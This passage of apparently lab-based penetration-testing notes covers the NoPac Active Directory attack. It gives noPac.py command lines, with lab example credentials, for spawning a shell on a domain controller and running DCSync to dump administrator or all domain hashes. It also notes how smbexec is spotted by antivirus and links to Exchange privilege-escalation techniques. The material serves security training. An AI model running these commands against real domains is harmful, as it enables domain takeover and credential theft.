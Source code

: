 We will obtain the `ms-DS-MachineAccountQuota` number. If it is set to 0, the attack will not work.

```bash
# Running NoPac & Getting a semi-interactive shell session  using smbexec.py -https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py. This could be "noisy" or may be blocked by AV or EDR.
sudo python3 noPac.py $domain/$user:$password -dc-ip $domainControllerIP -dc-host $hostname -shell --impersonate $userAdmin -use-ldap
# Example: 
# sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

Important: It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run (We can use `ls` to confirm).

```bash
# We could then use the cache file to perform a pass-the-ticket and perform further attacks such as DCSync.  Using noPac to DCSync the Built-in Administrator Account
sudo python3 noPac.py $domain/$user:$password -dc-ip $domainControllerIP -dc-host $hostname --impersonate $userAdmin -use-ldap -dump -just-dc-user $domain/$userAdmin
# Example:
# sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

# We can also dump all
sudo python3 noPac.py $domain/$user:$password -dc-ip $domainControllerIP -dc-host $hostname --impersonate $userAdmin -use-ldap -dump -just-dc
# Example:
# sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc
```

### Mitigations

**If opsec or being "quiet" is a consideration during an assessment, we would most likely want to avoid a tool like smbexec.py.**

If Windows Defender (or another AV or EDR product) is enabled on a target, our shell session may be established, but issuing any commands will likely fail. 

The first thing smbexec.py does is create a service called `BTOBTO`. Another service called `BTOBO` is created, and any command we type is sent to the target over SMB inside a .bat file called `execute.bat`. With each new command we type, a new batch script is created and echoed to a temporary file that executes said script and deletes it from the system. Let's look at a Windows Defender log to see what behavior was considered malicious.

## 💱  Exchange Related Group Membership 

**See some techniques at:** [https://github.com/gdedrouas/Exchange-AD-Privesc](https://github.com/gdedrouas/Exchange-AD-Privesc)
This repository provides a few techniques and scripts regarding the impact of Microsoft Exchange deployment on Active Directory security. This is a side project of AD-Control-Paths, an AD permissions auditing project to which I recently added some Exchange-related modules.
